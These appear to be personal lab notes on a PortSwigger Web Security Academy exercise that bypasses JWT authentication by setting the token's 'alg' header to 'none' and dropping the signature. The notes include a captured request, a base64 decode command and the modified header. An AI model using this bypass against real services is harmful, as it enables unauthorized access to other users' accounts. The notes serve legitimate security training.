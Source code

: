 ```HTTP
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

## Accepting tokens with no signature
Among other things, the JWT header contains an `alg` parameter. This tells the server which algorithm was used to sign the token and, therefore, which algorithm it needs to use when verifying the signature.
```json
{ "alg": "HS256", "typ": "JWT" }
```
- in attack change the `alg` value `none` and send without  signature


# [lab](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification) JWT authentication bypass via flawed signature verification
- when we login this packet sending
```HTTP
GET /my-account?id=wiener HTTP/2
Host: 0a86008e046f6c5680303f3200f30066.web-security-academy.net
Cookie: session=eyJraWQiOiI2ODVjOGFiMi01MWIzLTQwNzYtOTllMy00OTVkMGI4YmQ1ZTkiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTczODU3NDQxOCwic3ViIjoid2llbmVyIn0.C2kbGeTbFEolFy0gKzIdtN-ytAKp7iPhjU3wqxM4x59E7mIUtdgMLSCk4RlAaxuoNxWOI3lDHojPGiPJKGG8HwdFwW2mj5eVDtwAF4m09f2YYki8zyrq0UFM4nPhUFAQs6_XpdO-AuKi3trsKi6VHdJuf189foR3SIs_j2KmkHFWqZjnRsgvzYXkWsgzfgUeii-kJYGR1MyzRjOVdZhYObsRM6Zk1SW1todbYALFFFoAc_Oid4HVHhcB95Ri4LZH-iJTf4xNwA0nMXP1jKXqopPypjNGNbTOATUVK-jdYu1B0SrWgFaf3RwGYYVl1Gk1Ng9GpVjPBMQ-K4QZHQXqCw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a86008e046f6c5680303f3200f30066.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```
- decode part 1 jwt and change `alg` value to `none`
```bash
 echo eyJraWQiOiI2ODVjOGFiMi01MWIzLTQwNzYtOTllMy00OTVkMGI4YmQ1ZTkiLCJhbGciOiJSUzI1NiJ9 | base64 -d
{"kid":"685c8ab2-51b3-4076-99e3-495d0b8bd5e9","alg":"RS256"}%
```
- change 
```json
{"kid":"685c8ab2-51b3-4076-99e3-495d0b8bd5e9","alg":"none"}%
eyJraWQiOiI2ODVjOGFiMi01MWIzLTQwNzYtOTllMy00OTVkMGI4YmQ1ZTkiLCJhbGciOiJub25lIn0l
```
- and send packet without <span style="color:rgb(192, 0, 0)">signature</spanan>
